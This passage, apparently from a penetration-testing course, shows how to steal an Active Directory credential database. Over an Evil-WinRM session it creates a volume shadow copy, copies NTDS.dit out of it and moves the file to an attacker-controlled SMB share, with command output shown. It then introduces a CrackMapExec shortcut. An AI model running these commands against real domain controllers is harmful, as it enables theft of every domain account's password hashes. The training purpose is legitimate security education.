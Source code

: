 ### **Creating Shadow Copy of C:**

We can use `vssadmin` to create a [Volume Shadow Copy](https://docs.microsoft.com/en-us/windows-server/storage/file-server/volume-shadow-copy-service) (`VSS`) of the C: drive or whatever volume the admin chose when initially installing AD. It is very likely that NTDS will be stored on C: as that is the default location selected at install, but it is possible to change the location. We use VSS for this because it is designed to make copies of volumes that may be read & written to actively without needing to bring a particular application or system down. VSS is used by many different backup & disaster recovery software to perform operations.

```shell-session
*Evil-WinRM* PS C:\> vssadmin CREATE SHADOW /For=C:

vssadmin 1.1 - Volume Shadow Copy Service administrative command-line tool
(C) Copyright 2001-2013 Microsoft Corp.

Successfully created shadow copy for 'C:\'
    Shadow Copy ID: {186d5979-2f2b-4afe-8101-9f1111e4cb1a}
    Shadow Copy Volume Name: \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2
```

### **Copying NTDS.dit from the VSS**

We can then copy the NTDS.dit file from the volume shadow copy of C: onto another location on the drive to prepare to move NTDS.dit to our attack host.

```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy2\Windows\NTDS\NTDS.dit c:\NTDS\NTDS.dit

        1 file(s) copied.
```

Before copying NTDS.dit to our attack host, we may want to use the technique we learned earlier to create an SMB share on our attack host. Feel free to go back to the `Attacking SAM` section to review that method if needed.

### **Transferring NTDS.dit to Attack Host**

Now `cmd.exe /c move` can be used to move the file from the target DC to the share on our attack host.

```shell-session
*Evil-WinRM* PS C:\NTDS> cmd.exe /c move C:\NTDS\NTDS.dit \\10.10.15.30\CompData 

        1 file(s) moved.
```

### **A Faster Method: Using cme (CrackMapExec) to Capture NTDS.dit**

Alternatively, we may benefit from using CrackMapExec to accomplish the same steps shown above, all with one command. This command allows us to utilize VSS to quickly capture and dump the contents of the NTDS.dit file conveniently within our terminal session.
